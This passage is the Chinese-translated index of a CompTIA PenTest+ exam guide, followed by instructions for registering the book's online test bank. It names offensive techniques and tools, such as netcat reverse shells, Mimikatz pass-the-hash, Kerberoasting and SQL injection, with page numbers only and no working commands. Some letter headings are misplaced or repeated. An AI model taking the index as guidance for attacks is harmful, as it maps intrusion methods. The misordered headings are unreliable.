    *   隐蔽扫描, 72

*   **入侵防御系统 (IPS)**
    *   发现扫描, 71
    *   完整扫描, 70

*   **IoT (物联网) 设备**, 83, 226

*   **IP 地址, 黑名单**, 30, 219

*   **IP 端口**, 149

*   **IPS (入侵防御系统)**
    *   发现扫描, 71
    *   完整扫描, 70


## 索引

### I

*   `iptables`, 203
*   **IPv6 主机**, 106

### J

*   **移动设备越狱**, 82
*   **干扰攻击**, 115
*   **日本, 开放资源来源**, 67
*   **Java 源代码**, 161
*   **招聘广告**, 46
*   **John the Ripper 工具**, 154, 159
*   **JPCERT**, 67

### K

*   **Karma 攻击**, 113
*   **Kerberoasting**, 121, 130
*   **Kerberos 攻击**
    *   描述, 116
    *   黄金票据, 155
*   **内核攻击**, 122
*   **密钥管理系统**, 34
*   **键盘记录器**, 135, 233
*   **Kismet 工具**, 159

### L

*   **实验室环境**, 78
*   **LAPS (本地管理员密码解决方案)**, 196, 211, 246–247
*   **交战规则中的法律审查**, 8
*   **LDAP**
    *   服务器端口, 50
    *   启用 SSL, 121
*   **经验教训**, 210, 244
*   **相似度因素**, 100, 102
*   **链路本地多播名称解析 (LLMNR) 协议**
    *   特性, 106
    *   凭证查询, 133, 228
    *   安全风险, 107
*   **监听器, netcat**, 236
*   **本地管理员密码解决方案 (LAPS)**, 196, 211, 246–247
*   **本地文件包含**, 118
*   **本地安全机构子系统服务 (LSASS)**, 121
*   **渗透测试规划和范围界定中的位置选择**, 25
*   **锁绕过**
    *   描述, 103, 105
    *   门下工具, 130, 234
*   **撬锁**
    *   描述, 103
    *   工具, 105
*   **锁定, 账户**, 197–198
*   **多因素认证中的登录**, 247
*   **日志**
    *   专用服务器, 204
    *   目录遍历, 132
    *   最终结论, 13
    *   隐藏攻击, 126
    *   工具, 158
*   **低危漏洞类别**, 79
*   **LSASS (本地安全机构子系统服务)**, 121

### M

*   **MAC 地址**
    *   **ARP 欺骗**, 128, 228
    *   无线设备, 205
*   **邮件传输代理 (MTA)**, 108
*   **LLMNR 中的恶意主机**, 107
*   **恶意内部攻击者**, 6
*   `Maltego` 工具, 45, 172
*   **中间人 (MITM) 攻击**
    *   ARP 欺骗, 110
    *   攻击与漏洞利用, 129
    *   描述, 132, 228
    *   重放攻击, 110
*   **人员陷阱**, 133, 234
*   **制造设备和环境系统**, 82
*   **映射漏洞**, 80–81
*   **主服务协议 (MSA)**, 12, 30, 39, 220
*   **中等漏洞类别**, 79
*   `Medusa` 工具, 155, 158
*   **Metasploit Framework**
    *   描述, 161
    *   `msfconsole` 命令, 173, 237
    *   `use auxiliary` 命令, 177
*   **报告中的方法论部分**, 183, 189
*   **报告中的指标和度量**, 190
*   **报告中的迁移策略**, 208
*   **Mimikatz 工具**
    *   Kerberos 黄金票据, 155
    *   传递哈希攻击, 173, 238
    *   网络钓鱼, 127
*   **用于抓包的镜像端口**, 66
*   **缓解**, 21
*   **MITM 攻击**. *参见* **中间人 (MITM) 攻击**
*   **移动设备**
    *   工具, 160–161
    *   弱点, 82
    *   `Zenmap` 实用程序, 58
*   **用于射频发射的监听模式**, 65
*   **MSA (主服务协议)**, 12, 30, 39, 220
*   `msfconsole` 命令, 173, 237
*   **MTA (邮件传输代理)**, 108
*   **多因素认证**
    *   示例, 245
    *   登录, 247
    *   建议, 208–212
    *   类型, 199–201
*   **跨国银行目标**, 7

### N

*   **NAC**. *参见* **网络访问控制 (NAC)**
*   **国家级威胁**
    *   描述, 31, 217
    *   示例, 6–7
    *   威胁风险, 14
*   **国家漏洞数据库 (NVD)**
    *   描述, 222
    *   漏洞识别, 68–69
    *   漏洞排名, 69
*   `NBTSTAT` 命令
    *   服务器, 106
    *   工作站, 106
*   `nc` 命令, 177
*   `ncat` 工具
    *   绑定 Shell 漏洞利用, 239
    *   加密, 160
    *   Shell 会话, 156
*   **NDA (保密协议)**
    *   描述, 12
    *   目的, 29, 39
*   `Nessus` 工具, 87, 154, 221
*   **NetBIOS 名称服务**, 172, 236
*   `netcat` 工具
    *   绑定 Shell 漏洞利用, 239
    *   监听器, 175, 236
    *   反向 Shell 漏洞利用, 160, 239
*   `netstat` 工具, 203
*   **网络访问, 内部测试**, 34
*   **网络访问控制 (NAC)**
    *   攻击与漏洞利用, 112–113
    *   证书绑定, 33
    *   描述, 20
    *   隔离笔记本电脑, 30
*   **网络拓扑图**
    *   资产子网, 223
    *   服务器访问, 17, 215
*   **网络加固**, 202
*   **网络打印机**, 61
*   `Nikto` 工具, 155–157
*   `nmap` 实用程序
    *   活动连接, 237
    *   示例, 142–154
    *   内部服务器, 74
    *   大型子网, 76
    *   操作系统, 55, 76
    *   操作系统指纹识别, 177, 236
    *   端口, 175
    *   远程系统, 178
    *   扫描限速, 74
    *   T1 线路, 74
    *   TCP 端口, 178, 235
    *   Telnet, 235
    *   Web 服务器, 45
*   **竞业禁止协议**, 12
*   **非凭证漏洞**, 70
*   **保密协议 (NDA)**
    *   描述, 12
    *   目的, 29, 39
*   **非传统资产**, 75
*   **数据标准化**, 183, 188
*   `nslookup` 工具
    *   IP 地址, 44
    *   OSINT, 48
    *   侦察, 154
*   **NTLM v2 哈希**, 173
*   **空会话**, 133
*   **NVD (国家漏洞数据库)**
    *   描述, 222
    *   漏洞识别, 68–69
    *   漏洞排名, 69

### O

*   **离职流程**, 193
*   **禁测系统**, 25
*   **Telnet 服务中的开放端口状态**, 145
*   **开放端口**, 106
*   **开源情报 (OSINT)**
    *   描述, 87, 220–221
    *   信息收集, 46–47
    *   组织, 88
    *   执行, 127
    *   SET 和 Shodan, 237
    *   工具, 172
*   **操作系统**
    *   确定, 142
    *   内核漏洞利用, 122
    *   端口, 76
    *   版本, 55
*   **有组织犯罪攻击者**
    *   示例, 6–7
    *   资源和专业知识, 31
    *   威胁风险, 14
*   **操作系统指纹识别**, 177, 236
*   **OSINT**. *参见* **开源情报 (OSINT)**
*   **超出范围的系统**, 8
*   **外部攻击**, 10
*   `OWASP ZAP` 工具, 154, 160

### P

*   **抓包工具**, 65–66
*   **分页文件**, 202
*   **参数污染**, 117
*   **偏执模式计时选项**, 147
*   **部分知识测试**, 33
*   **传递哈希漏洞利用**
    *   描述, 110
    *   `Hydra` 工具, 174, 238
    *   `Mimikatz` 工具, 238
    *   工具, 173

## 索引

### P

*   **被动侦察**, 175, 236
*   **被动扫描**, 86, 220
*   `passwd` 命令, 203
*   **密码**
    *   暴力破解攻击, 82
    *   CeWL, 158
    *   企业策略, 36, 217
    *   cPassword 属性, 120
    *   默认密码, 80
    *   字典攻击, 82, 85
    *   组策略, 11
    *   加固用户账户, 202
    *   hashcat, 157
    *   哈希处理, 121
    *   LAPS, 211, 246–247
    *   多因素认证, 200
    *   PCI-DSS 要求, 22–23
    *   彩虹攻击, 82, 87, 226
    *   报告, 196–199, 204–205, 208
    *   Responder, 161
    *   SCADA 设备, 85, 227
    *   强密码, 85, 226, 247
    *   工具, 154–155
    *   VPN, 209
    *   Zenmap 实用程序, 57
*   **Patator 工具**, 155
*   **支付卡行业数据安全标准 (PCI-DSS)**
    *   合规性漏洞, 32, 72, 74
    *   渗透测试规划, 22–23
    *   测试频率, 28
*   **Peach 工具**, 157
*   **渗透测试规划与范围界定**
    *   对手, 14
    *   协议, 32
    *   篡改, 27–28
    *   API 文档, 17
    *   APT, 30, 37
    *   授权, 34, 39
    *   可用性问题, 27
    *   黑盒评估, 5, 10–11, 20, 24–25, 33, 35
    *   黑名单 IP 地址, 30
    *   预算, 36
    *   证书绑定, 20, 38
    *   公司策略, 36
    *   基于合规性的评估, 4, 14
    *   机密性, 24, 27, 36
    *   加密模块, 23
    *   网络攻击链模型, 38
    *   拒绝, 27–28
    *   披露, 27–28
    *   外部团队, 26
    *   设施地图, 17
    *   首要任务, 4
    *   基于目标的评估, 13
    *   政府承包商目标, 7
    *   灰盒评估, 4–5, 10–11, 24–25, 33
    *   黑客心态, 26
    *   黑客行动主义攻击, 6–7, 39
    *   医疗相关组织, 23
    *   影响分析, 24
    *   影响容忍度, 34, 36
    *   内部开发应用程序, 18
    *   范围内参数, 13
    *   内部攻击, 31
    *   完整性, 27
    *   内部团队, 25–27
    *   内部测试, 34
    *   国际刑警组织法规, 16
    *   日志文件, 13
    *   恶意内部攻击者, 6
    *   缓解措施, 21
    *   MSA（主服务协议）, 12, 30, 39
    *   跨国银行目标, 7
    *   NAC, 20, 30, 33
    *   国家级威胁, 6–7, 31
    *   NDA（保密协议）, 12, 29, 39
    *   网络图, 17
    *   禁测系统, 25
    *   有组织犯罪攻击者, 6–7, 31
    *   密码, 36
    *   PCI-DSS 标准, 22–23, 28, 32
    *   绩效工作说明书, 13
    *   个人信息, 23
    *   合并前评估, 14
    *   上市公司, 23
    *   采购订单, 12
    *   红队评估, 4, 14, 31, 38
    *   修复时间线, 25
    *   报告描述, 25
    *   报告条目, 37
    *   REST 架构, 19
    *   风险接受, 15, 21
    *   风险规避, 20
    *   风险讨论, 29
    *   风险转移, 21
    *   交战规则, 8–11, 32, 35
    *   示例应用程序请求, 18
    *   范围蔓延, 15, 32, 37–38
    *   范围定义, 7
    *   范围内资源, 34
    *   范围界定, 36
    *   脚本小子, 6–7, 29, 32
    *   SDK 文档, 17
    *   服务集标识符, 39
    *   签名机构, 33
    *   SOAP, 17–18, 35
    *   SSID, 31
    *   目标声明, 13
    *   工作说明书, 12, 29, 36
    *   供应链评估, 14
    *   Swagger 框架, 18, 37
    *   威胁建模, 15
    *   运输, 15–16
    *   白盒评估, 4–5, 7, 11, 17, 19, 29, 33
    *   白名单, 35
    *   书面授权, 11
    *   WSDL, 16, 19
    *   XSD, 19
*   **基于人员的缓解措施**, 193–195
*   **绩效工作说明书 (PWS)**, 13
*   **权限**
    *   权限提升, 120
    *   交战规则, 8, 10

## 索引

### P

*   **保护安全**, 214–215
*   **不安全**, 122
*   **持久性**. *参见* **漏洞利用持久性**
*   **个人信息**, 23
*   **网络钓鱼攻击**
    *   攻击与漏洞利用, 127
    *   权威诱导, 233
    *   描述, 94, 96
    *   电子邮件漏洞利用, 11
    *   theHarvester 工具, 76
*   **物理访问**, PCI-DSS 要求, 22
*   **尾随**
    *   描述, 102, 104
    *   人员闸, 133, 234
*   **PIN** 在多因素认证中, 199–200, 210–211, 245
*   **Ping 扫描**, 70
*   **销售点 (POS) 系统**, 83
*   **礼貌模式** 在时间选项中, 148
*   **政治原因**, 7, 15
*   **端口**
    *   关闭, 202
    *   DNS 服务器, 50
    *   域控制器, 49
    *   FTP 服务器, 49, 108
    *   HTTP 服务器, 50
    *   IMAP 电子邮件服务器, 49
    *   LDAP 服务器, 50
    *   镜像, 66
    *   nmap, 144–146, 175, 235
    *   开放, 106
    *   报告, 208
    *   SMB 文件服务器, 48
    *   SMB 协议, 107
    *   SMTP 服务器, 48
    *   SNMP 协议, 107
    *   SSH 服务器, 50
    *   TCP, 76, 175, 178, 235
    *   Telnet 服务器, 49, 224
    *   TFTP 服务器, 49
    *   Web 服务器, 224–225
*   **POS (销售点) 系统**, 83
*   **POs (采购订单)**, 12
*   **合约后清理过程**, 206, 211, 244
*   **PowerShell 脚本**, 162–167, 169
    *   数组, 177, 241
    *   远程脚本, 174–175, 241
    *   变量, 170
*   **PowerSploit 工具**, 155
*   **合并前评估**, 14
*   **预启动执行环境 (PXE)**, 121
*   **新闻稿**, 46
*   **打印机**
    *   共享, 107
    *   Zenmap 实用程序, 61
*   **先前的未授权访问**, 207, 248
*   **漏洞优先级排序**, 79
*   **提权攻击**
    *   权限, 120
    *   交战规则, 10


## 索引

### 未加引号的服务路径
134, 233

### 流程解决方案
193–195

### 混杂模式
用于数据包捕获, 66

### 代理服务器
149

### proxychains 工具
157

### PsExec 实用程序
*   连接, 131
*   控制台访问, 124, 234

### 上市公司
23

### 采购订单 (POs)
12

### PWSs (绩效工作说明书)
13

### PXE (预启动执行环境)
121

### Python 类
测试工具, 161

### Python 脚本
162, 164–167
*   if/then/else 结构, 178, 240
*   变量, 171

### R

#### 竞争条件
135, 232

#### 射频辐射
65–66

#### 彩虹表攻击
*   与暴力破解攻击对比, 87, 226
*   密码, 82, 198, 226

#### 随机主机扫描
149

#### rcp 实用程序
204

#### RDP
124

#### 只读账户
84, 223

#### 实时操作系统 (RTOS)
227

#### 建议
*参见* 报告与沟通

#### recon-ng 工具
44, 48

#### 侦察
*   网络攻击链模型, 38
*   nmap, 154
*   Shodan, 175

#### 红队评估
*   描述, 4
*   内部测试, 14
*   特定漏洞, 31, 38

#### 重定向
*   客户端请求, 240
*   网络钓鱼邮件, 116
*   URL, 209, 247

#### 反射型攻击
117

#### reg add 命令
127

#### reg save 命令
126

#### 注册表项
在漏洞利用持久性中, 131

#### 关系运算符
在脚本中, 165–167

#### 中继攻击
111

#### 修复时间线
25

#### 远程代码执行
123

#### 远程文件包含
118

#### 使用 SSH 进行远程服务器访问
204

#### 远程系统与管理
*   描述, 124–125
*   hping 实用程序, 175, 235
*   nmap, 178
*   PowerShell 脚本, 241
*   WMI, 235

#### 重复攻击
115

#### 重放攻击
110

#### 报告与沟通
*   管理员凭据, 196
*   发现证明, 206
*   认证, 199–201, 208–212
*   客户验收, 206
*   结论, 189–191, 243
*   关键发现, 186–187, 208, 210
*   关键漏洞, 243, 248–249
*   CVSS 评分, 207
*   去冲突, 183–185, 249
*   降级处理, 183–185, 249
*   处置, 192–193
*   文档记录, 205–207
*   高管摘要, 189, 208, 211, 242–243
*   发现与修复, 190–191
*   后续行动, 207
*   目标重新确定优先级, 188

## 索引

*   加固系统，201–204，208
*   即时报告，37
*   既往妥协指标，186–188
*   经验教训，210，244
*   方法论部分，183，189
*   指标与度量，190
*   迁移策略，208
*   数据规范化，183，188
*   密码，196–198，211
*   基于人员的缓解措施，193–195
*   端口，208
*   交战后清理流程，206，211
*   流程解决方案，193–195
*   建议书请求，210
*   风险承受度，209
*   态势感知，183–185
*   SQL 注入攻击，200–201
*   阶段，186–187，249
*   存储需求，191–192
*   系统可用性问题，248
*   技术解决方案，193–195，211，245
*   测试规划，25
*   受信代理，185
*   不必要的服务，211
*   URL 重定向，209
*   用户账户，201
*   厂商代表，205
*   VPN，209
*   漏洞优先级，207
*   无线设备，205
*   表述性状态传递 (REST) 架构，19
*   建议书请求 (RFPs)，210，245
*   重置账户锁定计数器设置，197
*   重置数据包，145
*   Responder 工具
    *   客户端请求重定向，240
    *   模拟/冒充，238
    *   NetBIOS 名称服务，172，236
    *   请求重定向，161
    *   资源模拟/冒充，177
*   REST (表述性状态传递) 架构，19
*   交战规则中的结果沟通，8
*   简历，46
*   Ret2libc 权限，120
*   视网膜扫描，199
*   逆向编译工具，156
*   反向 Shell 漏洞利用
    *   Bash 脚本，173，242
    *   Netcat，160，239
*   RFID 克隆，114–115
*   RFID 接近式读卡器，200
*   RFPs (建议书请求)，210，245
*   RID 循环
    *   描述，230
    *   空会话，133
*   风险接受，15，21，218
*   风险规避，20，218
*   风险讨论，29
*   高管摘要中的风险等级，243
*   CVSS 中的风险评分，225，242
*   风险承受度
    *   发现与修复，242
    *   报告与沟通，209
*   风险转移，21
*   ROE (交战规则)
    *   项目，214
    *   测试规划与范围界定，8–11，32，35
    *   白盒评估，214
*   用于程序执行的 Root 权限，120
*   移动设备 Root/获取 Root 权限，82
*   路由器配置，34
*   RPC/DCOM，123
*   RST 数据包，71
*   RTOS (实时操作系统)，227
*   Ruby 脚本，162，165–168，171

### S

#### SaaS 服务提供商
34

#### 哈希密码加盐
199

#### SAM 数据库
121

#### 示例应用程序请求
18

#### 用于站点验证的 SAN (主题替代名称)
131

#### 沙箱逃逸漏洞利用
123

#### 清理用户输入
201

#### 萨班斯-奥克斯利法案 (SARBOX)
23

#### SAST (静态应用程序安全测试) 工具
157

#### SCADA 设备
*参见* 监控与数据采集 (SCADA) 设备

#### 稀缺性因素
99，101

#### 计划/进度表
*   漏洞利用持久化，122，125
*   测试时间，73，84，223

#### 范围
*   定义，7
*   资源，215

#### 范围蔓延
15，32，37–38，219

#### 范围界定
*参见* 渗透测试规划与范围界定

#### scp 命令
204

#### 脚本小子
*   描述，6–7
*   专业技能，32
*   威胁风险，14，29

#### 脚本
*   if/then/else 结构，240
*   概述，162–172，176–178
*   故障排除，240–241

#### SDK (软件开发工具包) 文档
17

#### Searchsploit 工具
161

#### 安全 Shell (SSH)
*   Linux，203
*   端口，50
*   远程服务器访问，204
*   远程系统管理，124
*   流量转发，176，236

#### 安全意识培训
209，247

#### 安全证书
过期，78

#### LLMNR 中的安全控制
107

#### CERT 中的安全事件
67

#### 缺失安全更新
80

#### 串行控制台连接
123

#### 服务器消息块 (SMB) 协议
*   文件服务器端口，48
*   功能，107
*   弱点，107

#### 服务集标识符 (SSIDs)
*   邪恶双生攻击，113
*   Karma 攻击，113
*   有组织犯罪攻击者，31
*   渗透测试规划与范围界定，39

#### 服务
*   禁用，202
*   已安装，55

## 索引

### U

#### 卸载
201

#### 版本号
145

### S

#### SERVICES 共享
131

#### 会话劫持攻击
*   Cookie，135，232
*   描述，116

#### SET（社会工程学工具包）
156
*   OSINT，237
*   鱼叉式网络钓鱼攻击，133，228

#### SGID 特殊权限
120

#### 共享文件
107

#### Shell 会话
移除，206

#### Shell 升级
*   示例，133，233
*   沙箱逃逸漏洞利用，123

#### Shodan 工具
*   互联网设备，178，239
*   IoT 设备，45
*   OSINT，172，237
*   被动侦察，175，236

#### 偷窥
96，98

#### 碎纸机
192–193

#### 交战规则中的签名
10

#### 签名机构
33

#### 简单邮件传输协议 (SMTP)
*   攻击和漏洞利用，108
*   中继，108
*   服务器端口，48

#### 简单对象访问协议 (SOAP)
*   文档，17–18
*   消息协议，215
*   项目文件，35

#### 站点验证
用于站点验证的 SAN，131

#### 态势感知
183–185

#### 智能卡
210–211，245

#### 智能 IoT 设备
82–83

#### 砸毁闪存驱动器
192

#### SMB（服务器消息块）协议
*   文件服务器端口，48
*   功能，107
*   弱点，107

#### 短信钓鱼攻击
94

#### 短信网络钓鱼攻击
97

#### SMTP（简单邮件传输协议）
*   攻击和漏洞利用，108
*   中继，108
*   服务器端口，48

#### 嗅探器
108

#### SNMP 协议
*   攻击和漏洞利用，107
*   SCADA 设备，85，227

#### SOAP（简单对象访问协议）
*   文档，17–18
*   消息协议，215
*   项目文件，35

#### 社会工程学工具包 (SET)
156
*   OSINT，237
*   鱼叉式网络钓鱼攻击，133，228

#### 社会工程学
*   权威诱导，128，130，227
*   冒充，227
*   审讯/盘问，95，97，227
*   网络钓鱼攻击，233
*   SET，156
*   尾随，81

#### 社交媒体帖子
46

#### 社会认同因素
99，101

#### 软件开发工具包 (SDK) 文档
17

#### “你是谁”认证（生物特征认证）
199

#### “你有什么”认证（基于令牌的认证）
211–212，246

#### “你知道什么”认证（基于知识的认证）
199

#### “你在哪里”认证（基于位置的认证）
199–200

#### 目标陈述 (SOOs)
13

#### 工作说明书 (SOWs)
*   内容，29
*   描述，12
*   目标列表，36，216

#### 鱼叉式网络钓鱼攻击
*   凭据漏洞扫描，73
*   描述，94
*   示例，127
*   侦察，97
*   SET 工具，133，228

#### 欺骗 IP 地址
149

#### SQL 注入攻击
*   描述，115
*   报告，200–201
*   风险最小化，132–133，230
*   系统加固，246

#### Sqlmap 工具
*   暴力破解攻击，154
*   数据库服务器，179，239

#### SSH
*参见* 安全外壳 (SSH)

#### SSHv1
119

#### SSID
*参见* 服务集标识符 (SSID)

#### 启用 SSL 的 LDAP
121

#### SSL 剥离攻击
*   描述，111
*   降级，111

#### SSL/TLS 安全过期证书
78

#### sslyze 工具
63

#### 阶段通信触发器
186–187，249

#### 目标陈述 (SOOs)
13

#### 工作说明书 (SOWs)
*   内容，29
*   描述，12
*   目标列表，36，216

#### 静态应用安全测试 (SAST) 工具
157

#### 静态代码分析
*   描述，223
*   源代码，75，77
*   Web 应用程序，84

#### 隐蔽扫描
*   描述，88，224
*   SYN 数据包，71
*   三次握手，71

#### 粘滞位
120

#### 内部测试的存储访问
34

#### 报告中的存储要求
191–192

#### 使用可逆加密存储密码设置
198

#### 存储型跨站脚本 (XSS)
*   描述，128
*   优先级排序，232

#### 存储型/持久型攻击
117

#### 强密码
85，226，247

#### 主题备选名称 (SAN) 用于站点验证
131

#### sudo 程序
120

#### SUID 特殊权限
120

#### 监控与数据采集 (SCADA) 设备
*   暴力破解攻击，85
*   破坏潜力，77
*   制造设备和环境系统，82
*   密码，227
*   白名单设备，113

#### 供应链评估
14

#### Swagger 框架
*   API 测试，37，215
*   REST Web 服务，18

#### 交换机
*   数据包捕获，66
*   VLAN 中的欺骗，113

#### SYN 数据包
71

#### SYN 端口扫描
142

#### 系统可用性问题
27，248

## 索引

### T

#### 系统加固
201–204, 208, 246

#### T1 线路
74

#### tail 命令
172

#### 尾随进入
81, 102, 104

#### SOW 中的目标列表
36, 216

#### 目标组织，授权
34

#### 任务计划程序
125

#### TCP ACK 扫描
143–144

#### TCP 连接扫描
143

#### TCP 端口
*   hping，175
*   nmap，178, 235
*   操作系统，76

#### TCP SYN 洪水攻击
128, 232

#### TCP 三次握手
71

#### tcpdump 实用程序
65

#### 团队
25–27

#### 技术解决方案
193–195, 211, 245

#### Telnet 服务
*   Banner 抓取，60–61
*   nmap 实用程序，235
*   端口，49, 224
*   SMTP，108
*   不安全服务，119

#### 开锁用张力扳手
105

#### 测试人员创建的凭据，移除
206

#### 测试计划
73, 84, 223

#### TFTP 服务器端口
49

#### theHarvester 工具
*   身份验证凭据，46
*   电子邮件地址，76
*   IP 地址，44

#### 威胁建模
15

#### 三因素认证 (3FA)
200

#### 三次握手
71

#### 扫描限速
73–74

#### 检查时间到使用时间 (TOCTTOU)
135, 232

#### 交战规则中的时间线
8


# 索引

## N

*   **nmap 中的时间选项**，147–148

*   **TLSv1_1**，64

*   **TLSv1_2**，64

*   **TOCTTOU (检查时间到使用时间)**，135, 232

*   **工具概览**

    *   **AFL**，157

    *   **Aircrack-ng**，155

    *   **APK Studio**，157, 161

    *   **APKX**，157, 161

    *   **BeEF**，156, 174

    *   **Cain and Abel**，154

    *   **Censys**，179

    *   **CeWL**，158, 174

    *   **Dirbuster**，158

    *   **Drozer**，160

    *   **Empire**，155

    *   **Findsecbugs**，157

    *   **foremost**，156

    *   **FTK**，156

    *   **hashcat**，157

    *   **Hopper**，156

    *   **hping**，154, 175

    *   **Hydra**，155, 158, 172, 174

    *   **IDA**，156

    *   **Impacket**，160–161, 178

    *   **John the Ripper**，154, 159

    *   **Kismet**，159

    *   **Maltego**，172

    *   **Medusa**，155, 158

    *   **Metasploit**，161, 173, 177

    *   **Mimikatz**，155, 173

    *   **ncat**，156, 160

    *   **Nessus**，154

    *   **netcat**，158, 160, 175

    *   **Nikto**，155–157

    *   **nmap**，142–154, 175, 178

    *   **nslookup**，154

    *   **OWASP ZAP**，154, 160

    *   **Patator**，155

    *   **Peach**，157

    *   **PowerShell**，174–175

    *   **PowerSploit**，155

    *   **proxychains**，157

    *   **Responder**，161, 177

    *   **脚本**，162–172, 176–178

    *   **Searchsploit**，161

    *   **Secure Shell**，176

    *   **SET**，156

    *   **Shodan**，172, 175, 178

    *   **SQLmap**，154

    *   **Sqlmap**，179

    *   **Telnet 服务**，145

    *   **W3AF**，155

    *   **whois**，154, 159

    *   **WiFite**，159

    *   **YASCA**，157

*   **traceroute 命令**，50–51

*   **商业秘密**，37

*   **测试软硬件运输**，15–16

*   **特洛伊木马**，126

*   **受信任代理**，185

*   **双因素认证 (2FA)**，200

## U

*   **UDP**

    *   **连接扫描**，143

    *   **主机扫描**，144

    *   **端口扫描**，146

*   **通过 PXE 进行的无人值守安装**，121

*   **不可用系统，报告**，207, 248

*   **门下工具**，234

*   **不必要的服务**

    *   **禁用**，202, 208, 211, 246

    *   **卸载**，201

*   **未加引号的服务路径**

    *   **描述**，122

    *   **提权攻击**，134, 233

*   **无响应服务器，报告**，37

*   **不安全编码实践**，118–119

*   **不安全的文件和文件夹权限**，122

*   **不安全服务**，119

*   **脚本中的 until 循环**，170

*   **内核漏洞利用的更新**，122

*   **升级**

    *   **密码套件**，247

    *   **销售点系统**，83

    *   **Shell**，133, 233

*   **紧迫性因素**，99–101

*   **URL 重定向**，209, 247

*   **USB 密钥投放**，96–97

*   **用户账户**

    *   **漏洞利用持久化**，126

    *   **加固**，201

    *   **非活动**，223

*   **SQL 注入攻击中的用户输入**，200–201

## V

*   **脚本中的变量**，170–172

*   **供应商代表**，205

*   **详细错误消息**，118

*   **版本号**

    *   **nmap 实用程序**，145

    *   **操作系统**，55

*   **虚拟机 (VM) 逃逸**，123

# 索引

## V

*   **虚拟网络计算 (VNC)**，125

*   **语音钓鱼攻击**，95，97，134，228

*   **VLAN**

    *   跳跃，113

    *   交换机欺骗，113

*   **虚拟机 (VM) 逃逸**，123

*   **VNC (虚拟网络计算)**，125

*   **VOIP 电话**，113

*   **VPN 凭据**，209，247

*   **漏洞优先级**，207

*   **漏洞排名**，69

*   **漏洞扫描器**，155

## W

*   **W3AF 工具**，155

*   **WADL (Web 应用程序描述语言)**，16，19

*   **WAF (Web 应用程序防火墙) 日志**，209

*   **WannaCry 漏洞利用**

    *   描述，79

    *   SMB 协议，107

*   **弱凭据漏洞利用**，116

*   **Web 应用程序描述语言 (WADL)**，16，19

*   **Web 应用程序防火墙 (WAF) 日志**，209

*   **Web 浏览器工具**，156

*   **支持 Web 的电视监视器**，75

*   **Web 抓取**，129

*   **Web 服务器**

    *   标志抓取，62

    *   信息收集，64，83–84

    *   nmap，146

    *   旧版本，68–69

    *   端口，76，224–225

    *   面向公众的，73

    *   Zenmap 实用程序，63

*   **Web 服务描述语言 (WSDL)**

    *   文档，16

    *   SOAP，19

*   **鲸钓攻击**，94，97

*   **脚本中的 while 循环**，170

*   **白盒评估**

    *   描述，4–5，7，219

    *   防火墙，29

    *   全知测试，33

    *   所需信息，19

    *   基础设施漏洞，11

    *   交战规则，214

    *   SDK 和 API 文档，17

*   **SQL 注入中的白名单验证**，132–133，230

*   **白名单设备**，113

*   **白名单**，35

*   **whois 工具**，159

    *   描述，44，222

    *   组织信息，77

    *   OSINT，47

    *   侦察，154

*   **WiFite 工具**，159

*   **Windows Management Instrumentation (WMI，Windows 管理规范)**

    *   描述，124

    *   远程管理，235

*   **Windows Remote Management (WinRM，Windows 远程管理)**，124

*   **无线设备**，205

*   **Wireshark 实用程序**

    *   转发流量，236

    *   抓包，65

*   **WMI (Windows Management Instrumentation，Windows 管理规范)**

    *   描述，124

    *   远程管理，235

*   **字典**

    *   CeWL，238

    *   工具，174

*   **工作站**

    *   NBTSTAT，106

    *   Zenmap 实用程序，62

*   **WPA2-PSK 解除认证攻击**，131

*   **WPA2 不安全服务**，119

*   **WPS 破解**，114

*   **开锁扳手**，105

*   **书面授权**，11

*   **书面许可**，8

*   **WSDL (Web 服务描述语言)**

    *   文档，16

    *   SOAP，19

## X

*   **X11 转发**，125

*   **XML Schema Definition (XSD，XML 模式定义)**，19

*   **XML 格式的文本文件**，148

*   **XSS (跨站脚本) 攻击**

    *   描述，128，229

    *   示例，117

    *   HTML 注入，135

    *   优先级排序，232

## Y

*   **Yet Another Source Code Analyzer (YASCA) 工具**，157

## Z

*   **Zenmap 实用程序**，55–63

*   **零知识评估**，33

*   **零知识测试**，6，33

*   **区域传送，DNS**，75

# 综合在线学习环境

注册即可获得一年免费的在线互动学习环境和题库访问权限，助您备考 CompTIA PenTest+ 认证考试——随本书购买赠送！

在线题库包含以下内容：

*   **练习测试题**，巩固所学知识

*   **额外练习考试**，检验您对教材的掌握程度

访问 [`www.wiley.com/go/sybextestprep`](http://www.wiley.com/go/sybextestprep) 注册并获取这一综合学习工具包。

## 注册并访问在线题库

要注册您的书籍并获取在线题库访问权限，请执行以下步骤：

1.  访问 `bit.ly/SybexTest`。

2.  从列表中选择您的书籍。

3.  填写所需的注册信息，包括回答安全验证问题以证明书籍所有权。您将通过电子邮件收到一个 PIN 码。

4.  按照电子邮件中的说明操作，或访问 [`www.wiley.com/go/sybextestprep`](https://www.wiley.com/go/sybextestprep)。

5.  输入您收到的 PIN 码，然后点击“激活 PIN”按钮。

6.  在“创建帐户或登录”页面上，输入您的用户名和密码，然后点击登录。将出现“感谢您激活 PIN 码！”消息。如果您还没有帐户，请创建一个新帐户。

7.  点击“转到我的帐户”按钮，将您的新书添加到“我的产品”页面。


# WILEY 最终用户许可协议

访问 [www.wiley.com/go/eula](http://www.wiley.com/go/eula) 查看 Wiley 的电子书最终用户许可协议 (EULA)。
